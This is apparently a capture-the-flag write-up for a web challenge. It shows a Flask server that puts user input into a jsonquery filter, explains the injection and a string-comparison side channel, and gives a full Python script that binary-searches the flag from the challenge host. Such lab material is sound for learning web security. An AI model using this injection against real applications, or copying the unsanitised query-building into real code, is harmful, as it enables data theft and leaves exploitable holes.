 # Jey is not my son

```
Find the year the flag was created, that’s the answer you seek. But beware: Jey is not not my son.

https://fortid-jey-is-not-my-son.chals.io/
```

Server code:

```python
from flask import Flask, render_template, request
from jsonquerylang import jsonquery
import json
import string

app = Flask(__name__)

with open('data.json') as f:
    data = json.load(f)

def count_baby_names(name: str, year: int) -> int:
    query = f"""
                .collection
                    | filter(.Name == "{name}" and .Year == "{year}")
                    | pick(.Count)
                    | map(values())
                    | flatten()
                    | map(number(get()))
                    | sum()
            """
    output = jsonquery(data, query)
    return int(output)

def contains_digit(name: str) -> bool:
    for num in string.digits:
        if num in name:
            return True
    return False


@app.route("/", methods=["GET"])
def home():
    name = None
    year = None
    result = None
    error = None

    name = request.args.get("name", default="(no name)")
    year = request.args.get("year", type=int)

    if not name or contains_digit(name):
        error = "Please enter a name."
    elif not year:
        error = "Please enter a year."
    else:
        if year < 1880 or year > 2025:
            error = "Year must be between 1880 and 2025."
        try:
            result = count_baby_names(name=name, year=year)
        except Exception as e:
            error = f"Unexpected error: {e}"

    return render_template("index.html", name=name, year=year, count=result, error=error)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

There is a json query injection:

```
| filter(.Name == "{name}" and .Year == "{year}")
```

We can construct the following query to skip over the year check:

```python
import json
from jsonquerylang import jsonquery

data = json.loads("""
{
  "collection": [
    {"Name": "Alice", "Year": "2020", "Count": 100},
    {"Name": "Bob", "Year": "2020", "Count": 200},
    {"Name": "flag", "Year": "FortID{a1b2c3d4}", "Count": 300}
  ]
}
""")

def test(name, year):
    query = f"""
                .collection
                    | filter(.Name == "{name}" and .Year == "{year}")
                    | pick(.Count)
                    | map(values())
                    | flatten()
                    | map(number(get()))
                    | sum()
            """
    print(jsonquery(data, query))

name = 'flag") | filter(.Name not in [] or .Name == "'
year = 2019
test(name, year)
```

Due to operator precedence, the second filter evaluates to `True or False and False`, which is always `True`. Then only the first filter is in effect.

Through this, we can confirm that there is an entry called `flag` online. Then, we need to extract its year field. However, it is a string field, so we cannout return the integer directly. Instead, we use string comparison operator:

```python
name = 'flag") | map({Count: "FortID" >= .Year}) | filter(.Name not in [] or .Name == "'
year = 2019
test(name, year) # prints 0.0

name = 'flag") | map({Count: "FortIE" >= .Year}) | filter(.Name not in [] or .Name == "'
year = 2019
test(name, year) # prints 1.0
```

So we can use binary search to recover the flag. However, we cannot use integers. We can use `string()` to construct arbitrary integer:

```python
string((""!="")+(""!="")+(""=="")+(""=="")+(""==""))
# becomes
string(0+0+1+1+1)
# becomes
"3"
```

Attack script:

```python
import requests
import urllib
from jsonquerylang import jsonquery

flag = "FortID{"

alphabet = "#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[]^_`abcdefghijklmnopqrstuvwxyz{|}~"

while "}" not in flag:
    lo = 0
    hi = len(alphabet)
    while lo + 1 < hi:
        mi = (lo + hi) // 2
        ch = alphabet[mi]
        temp = flag + ch
        encoded = ""
        for c in temp:
            if c >= "0" and c <= "9":
                encoded += (
                    '"+string('
                    + "+".join(['(""!="")'] * 2 + ['(""=="")'] * (ord(c) - ord("0")))
                    + ')+"'
                )
                pass
            else:
                encoded += c

        name = (
            'flag") | map({Count: .Year >= ("'
            + encoded
            + '")}) | filter(.Name not in [] or .Name == "'
        )
        year = 2020

        r = requests.get(
            "https://fortid-jey-is-not-my-son.chals.io/?"
            + urllib.parse.urlencode(
                {
                    "name": name,
                    "year": year,
                }
            )
        )
        for line in r.text.splitlines():
            if "time" in line:
                times = int(line.split()[-2].split(">")[1].split("<")[0])
                print(temp, times)
                if times == 1:
                    # greater
                    lo = mi
                elif times == 0:
                    # lower
                    hi = mi
                break
    flag += alphabet[lo]
```

Flag: `FortID{B3_th3_0n3_wh0_1s_n0t_b1ind_1n_th3_n3w_3r4}`.
